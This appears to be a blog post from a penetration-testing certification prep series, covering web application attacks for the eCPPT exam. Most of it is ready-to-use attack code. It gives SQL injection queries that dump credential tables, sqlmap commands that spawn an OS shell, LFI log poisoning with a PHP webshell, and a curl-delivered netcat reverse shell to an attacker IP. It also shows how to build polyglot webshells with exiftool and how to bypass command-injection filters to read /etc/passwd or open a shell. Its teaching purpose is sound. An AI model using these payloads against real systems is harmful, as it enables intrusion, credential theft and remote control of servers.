


In the vast majority of real-world assessments and specifically within the **eCPPT (eLearnSecurity Certified Professional Penetration Tester)** examination environment, web applications serve as the primary external gateway into an organization's internal network. Whether targeting custom enterprise portals, legacy PHP CMS installations, or internal administrative dashboards, web vulnerabilities provide the critical initial foothold required to pivot further into the enterprise.

In this deep dive, we walk through the standardized testing framework defined by the **OWASP Web Security Testing Guide (WSTG v4.2)** and provide an in-depth technical breakdown of high-impact vulnerabilities: **SQL Injection (In-Band, Error-based, and Blind)**, escalating **Local File Inclusion (LFI) to Remote Code Execution (RCE)** via log poisoning, and bypassing restrictive **File Upload Filters**.

---

### Series Navigation

| **Previous Part** | **Current Part** | **Next Part** |
| :---: | :---: | :---: |
| [Part 7: Command and Control (C2) Infrastructure](/posts/ecppt-v3-part-7-command-and-control-c2/) | **Part 8: Web Application Pentesting** | [Part 9: Client-Side Attacks & Weaponization](/posts/ecppt-v3-part-9-client-side-attacks/) |

---

## Key Takeaways

* **OWASP WSTG v4.2 Framework**: Industry-standard web assessment methodology encompassing 12 testing categories, from passive information gathering and identity verification to input validation and business logic testing.
* **In-Band Union-Based SQLi Mechanics**: Extracting database records directly within the HTTP response stream requires determining the exact column count via `ORDER BY`, mapping the reflected output columns, and extracting metadata tables from `information_schema`.
* **Blind SQL Injection**: When query results are not reflected in the application UI, we infer database contents bit by bit using binary state responses (**Boolean-based Blind**) or database delay routines (**Time-based Blind** via `SLEEP()` or `WAITFOR DELAY`).
* **LFI to RCE via Log Poisoning**: Local File Inclusion (LFI) vulnerabilities can be escalated to full operating system shells by injecting PHP payloads into server logs (such as `/var/log/apache2/access.log` via the `User-Agent` header or `/var/log/auth.log` via SSH) and subsequently including the log file.
* **File Upload Filter Evasion**: Bypassing defensive file upload controls through client-side validation tampering, `Content-Type` header spoofing, double extensions, null byte injections, and crafting valid **Polyglot Webshells** with `exiftool`.

---

## 1. Web Penetration Testing Lifecycle (OWASP WSTG)



---

## 2. SQL Injection: From Discovery to Full Database Dump

SQL injection occurs when untrusted user input is directly concatenated into a dynamic SQL query without parameterization or proper escaping.

### Dissecting In-Band Union-Based SQL Injection:



### Production SQL Injection Commands & Queries:

#### 1. Manual MySQL / MariaDB Union Queries:
```sql
-- Step 1: Discover database name, version, and active database user
' UNION SELECT 1, database(), version(), user()-- -

-- Step 2: Enumerate all table names in the current database
' UNION SELECT 1, group_concat(table_name), 3, 4 FROM information_schema.tables WHERE table_schema=database()-- -

-- Step 3: Enumerate column names inside the target 'users' table
' UNION SELECT 1, group_concat(column_name), 3, 4 FROM information_schema.columns WHERE table_name='users'-- -

-- Step 4: Dump credentials (username and password hash separated by a colon)
' UNION SELECT 1, group_concat(username, 0x3a, password), 3, 4 FROM users-- -
```

#### 2. Automated Exploitation via `sqlmap`:
```bash
# Automated scanning with aggressive heuristics and tamper evasion
sqlmap -u "http://10.10.10.50/view.php?id=1" --batch --random-agent --level=5 --risk=3 --dbs

# Dump specific target database tables
sqlmap -u "http://10.10.10.50/view.php?id=1" -D app_db -T users --dump

# Spawn an interactive OS shell (if database user has FILE and stacked query privileges)
sqlmap -u "http://10.10.10.50/view.php?id=1" --os-shell
```

---

## 3. Local File Inclusion (LFI) to Remote Code Execution (RCE)

When applications use dynamic parameters in file-loading functions (`include()`, `require()` in PHP), directory traversal characters (`../../`) allow arbitrary local file reads.

### 1. Source Code Extraction via PHP Wrappers:
If the application appends a file extension (e.g., `include($_GET['page'] . ".php");`), direct file reads will fail. We leverage stream filters to read base64-encoded source code:

```text
http://10.10.10.50/index.php?page=php://filter/convert.base64-encode/resource=config
```

Base64 decoding the returned string reveals underlying database credentials and API tokens!

---

### 2. Weaponizing LFI to RCE via Log Poisoning:

```mermaid
sequenceDiagram
    autonumber
    actor Attacker as Attacker (Kali Linux)
    participant Apache as Apache Web Server
    participant AccessLog as Server Log (/var/log/apache2/access.log)
    
    Attacker->>Apache: Transmit HTTP GET request with PHP payload in User-Agent header:<br/>User-Agent: <?php system($_GET['cmd']); ?>
    Apache->>AccessLog: Writes full request entry into access.log containing raw PHP code!
    
    Attacker->>Apache: Invoke LFI parameter pointing to access.log:<br/>GET /index.php?page=/var/log/apache2/access.log&cmd=id
    Apache->>AccessLog: PHP interpreter executes the poisoned code inside the log file!
    Apache-->>Attacker: Command output returned in response: uid=33(www-data) gid=33(www-data)!
```

#### Execution Commands for Log Poisoning:

```bash
# 1. Poison Apache access log using curl
curl -s -H "User-Agent: <?php system(\$_GET['c']); ?>" "http://10.10.10.50/index.php"

# 2. Verify command execution via LFI
curl "http://10.10.10.50/index.php?page=/var/log/apache2/access.log&c=whoami"

# 3. Spawn a reverse shell back to Kali
curl "http://10.10.10.50/index.php?page=/var/log/apache2/access.log&c=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.5+4444+>/tmp/f"
```

---

## 4. File Upload Vulnerability Evasion Techniques

When testing file upload functionality, applications frequently employ layered defenses that can be systematically bypassed:

| Defense Mechanism | Validation Logic | Evasion Technique |
| :--- | :--- | :--- |
| **Client-Side Validation** | JavaScript function checks file extension in browser | Intercept POST request in Burp Suite and rename the file after validation runs. |
| **MIME-Type Verification** | Server inspects `Content-Type` HTTP header | Change `Content-Type: application/x-php` to `image/jpeg` or `image/png`. |
| **Blacklist Filtering** | Blocks `.php`, `.asp`, `.exe` | Use alternate extensions: `.phtml`, `.php3`, `.php4`, `.php5`, `.phar`, `.inc`. |
| **Case-Insensitive Bypass** | Simple case-sensitive string matching | Use mixed-case extensions: `.pHp`, `.pHP5`, `.PhP`. |
| **Magic Bytes Inspection** | Verifies file header bytes match image signatures | Prepend valid GIF/JPEG magic bytes (`GIF89a;`) or create an image polyglot. |

### Crafting Image Polyglots with `exiftool`:

```bash
# Inject PHP webshell into a legitimate image's comment metadata without corrupting the file
exiftool -Comment="<?php system(\$_GET['cmd']); ?>" legit_photo.jpg -o shell.php.jpg

# Or prepend raw GIF magic bytes manually:
echo -e 'GIF89a;\n<?php system($_GET["cmd"]); ?>' > shell.php
```

---

## 5. OS Command Injection Evasion

When applications pass user input to system shells (e.g., executing `system("ping -c 3 " . $ip)`):

* **Command Separators**: Chain arbitrary commands using `;`, `&&`, `||`, or `|`.
* **Bypassing Whitespace Filters**: Use the internal bash separator `${IFS}`:
  ```text
  127.0.0.1;cat${IFS}/etc/passwd
  ```
* **Bypassing Blacklisted Words**: Use quote concatenation or wildcard expansion:
  ```text
  127.0.0.1;c'a't /et'c'/pas's'wd
  127.0.0.1;/bin/n? 10.10.14.5 4444 -e /bin/sh
  ```

---

## References & Further Reading

1. **OWASP Web Security Testing Guide (WSTG v4.2)**: [https://owasp.org/www-project-web-security-testing-guide/](https://owasp.org/www-project-web-security-testing-guide/)
2. **PortSwigger Web Security Academy**: [https://portswigger.net/web-security](https://portswigger.net/web-security)
3. **PayloadsAllTheThings - Web Exploitation Repository**: [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
4. **SecLists Fuzzing & Discovery Wordlists** by Daniel Miessler: [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
5. **MITRE ATT&CK Matrix**:
   * Technique T1190: Exploit Public-Facing Application
   * Technique T1059.006: Command and Scripting Interpreter: Python/PHP

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
